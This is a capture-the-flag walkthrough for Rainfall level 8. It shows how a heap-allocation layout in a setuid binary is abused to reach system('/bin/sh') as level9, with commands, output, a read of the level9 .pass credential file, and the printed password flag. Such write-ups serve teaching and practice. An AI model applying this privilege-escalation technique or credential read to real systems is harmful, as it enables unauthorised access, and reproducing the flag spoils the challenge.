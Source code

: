 # Rainfall Level 8 Guide
This guide will walk you through the process of finding the password for the `level8` user.

## 1. Examine your environment
   
`id` : Shows user and group identities that you have.
```bash
uid=2008(level8) gid=2008(level8) groups=2008(level8),100(users)
```
`pwd` : Displays the current directory you are in.
```bash
/home/user/level8
```
`ls -la` : Lists files and their permissions in the current directory.
```bash
-rwsr-s---+ 1 level9 users  6057 Mar  6  2016 level8
```

We can see that the `level8` binary has the `setuid` bit set, which means that it runs with the permissions of the owner of the file. In this case, the owner is `level9`. It executable by the `users` group, our current group.

We execute the binary to see what it does. It waiting fon an input, but every times it prints `(nil), (nil)`.
```bash
level6@RainFall:~$ ./level8
test
(nil), (nil) 
aaa
(nil), (nil) 
bbb
(nil), (nil)
```

## 2. Reverse engineering

We will use Ghidra to reverse engineer the binary.
You can find the analysis in [Ressources/ghidra_analyse_level8.c](Ressources/ghidra_analyse_level8.c), and the reconstructed C code in [source.c](source.c).

## 3. Analysis

We find a main function, which is very long. You will find the source code rebuild in the [source_code_rebuild.c](Ressources/source_code_rebuild.c) file, and the simplified source code in the [source.c](source.c) file.
We will use the simplified source code to explain the vulnerability.

We can see `system("/bin/sh")` at the end of the main function. We need to find a way to execute this command.
```c
int main(void)
{
  char input[128];
  uint uVar4;
  char local_8b[2];
  char acStack_89 [125];
  
  do {
    printf("%p, %p\n", auth, service);
    if (fgets(input,0x80,stdin) == NULL) {
        return 0;
    }
    if (strncmp(input, "auth ", 5) == 0) {
        auth = malloc(4);
	    auth[0] = 0;
        uVar4 = strlen(input + 5);
        if (uVar4 < 31) {
            strcpy((char *)auth, input + 5);
        }
    }
    if (strncmp(input, "reset", 5) == 0) {
        free(auth);
    }
    if (strncmp(input, "service", 7) == 0) {
        service = strdup(input + 7);
    }
    if (strncmp(input, "login", 5) == 0) {
        if (auth != NULL && auth[32] == 0) {
            fwrite("Password:\n", 1, 10, stdout);
        } else {
            system("/bin/sh");
        }
    }
  } while( true );
}
```
This programm take an input, and if the input begins with `auth`, it will copy the input after `auth` in the `auth` variable, if the length of the input after `auth ` is less than 31.
If the input begins with `reset`, it will free the `auth` variable.
If the input begins with `service`, it will copy the input after `service` in the `service` variable.
If the input begins with `login`, it will check if the `auth` variable is not `NULL` and the 32th byte of the `auth` variable is `0`. If it is the case, it will print `Password:`. If not, it will execute `system("/bin/sh")`.

## 4. Exploitation

So if we write `auth `, the `auth` variable will be set to nothing.
```bash
auth 
0x804a038, (nil)
```
`0x804a038` is the address of the `auth` variable, after malloc.
```bash
service
0x804a038, 0x804a048
```
`0x804a048` is the address of the `service` variable, after strdup.
We can see that the `service` variable is just after the `auth` variable in memory.
Indeed, malloc allocate memory following the last memory allocation.

Between `0x804a038` and `0x804a048`, there is 16 bytes of memory.
We want to overflow the `auth[32]` byte.
If `auth[0]` is at the address `0x804a038`, `auth[32]` is at the address `0x804a038 + 32 = 0x804a058`.
`service` is at the address `0x804a048`, so we need to write 16 bytes in the `service` variable to overflow the `auth[32]` byte.
1 char == byte, so we need to write 16 characters to overflow the `auth[32]` byte.

```c
if (strncmp(input, "service", 7) == 0) {
    service = strdup(input + 7);
}
```
`strdup` will copy (and `malloc`) the input after `service` in the `service` variable. So we can write 16 characters after `service` to have 16 bytes in the `service` variable.

```bash
service0123456789012345
0x804a038, 0x804a048
```

Now, if we write `login`, the program will check if the 32th byte of the `auth` variable is `0`. If it's not the case, it will execute `system("/bin/sh")`.
```bash
login
$ 
```

We have the shell ! We can check if we have the `level9` rights.
```bash
$ whoami
level9
```

So we can read the password in the `/home/user/level9/.pass` file.
```bash
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

Congratulations!
We can now connect to the `level9` user with this password.
```bash
level8@RainFall:~$ su level9
Password:
level9@RainFall:~$
```
